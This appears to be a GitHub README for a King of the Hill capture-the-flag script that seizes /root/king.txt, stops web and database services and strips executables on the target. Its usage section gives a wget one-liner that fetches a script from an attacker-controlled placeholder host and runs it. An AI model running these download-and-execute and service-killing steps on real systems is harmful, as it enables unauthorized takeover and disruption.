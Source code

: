 # The KOTH Script

<p align="center">
  <img src="king.png" alt="King">
</p>


The KOTH Script is a powerful tool created by H3X-007 to ensure that you are the ultimate KING in King of the Hill challenges. It automates various actions and configurations to secure your position as the reigning champion.

## Features

- Sets the user nickname as the KING in the `/root/king.txt` file.
- Applies necessary patches to enhance security.
- Stops critical services like Tomcat, Nginx, and MariaDB.
- Restricts file permissions and removes certain executables.
- Monitors and updates the KING nickname in real-time..

## Usage

1. Clone the repository:
    
       git clone https://github.com/H3X-007/KOTH-Scripts.git

2. Change to the KOTH-Scripts directory:
       
       cd KOTH-Script 

3. Start a Python HTTP server on port 80:
  
       python3 -m http.server 80  

4. On the KOTH machine, execute the KOTH.sh script:
  
       wget http://YOUR-VPN-IP/KOTH.sh && chmod +x KOTH.sh && ./KOTH.sh

5. Enter your desired nickname when prompted.

6. Sit back and enjoy being the KING! The script will continuously update the KING nickname in the \`/root/king.txt\` file to maintain your dominance.

#### NOTE : Please ensure that the Python server is running on port 80 before executing the KOTH script. The KOTH script relies on the server to retrieve and run the check.sh script. Once the check.sh script is obtained and executed, you can safely close the Python server.

## Contributing

Contributions are welcome! If you have any suggestions, bug reports, or feature requests, please open an issue or submit a pull request.
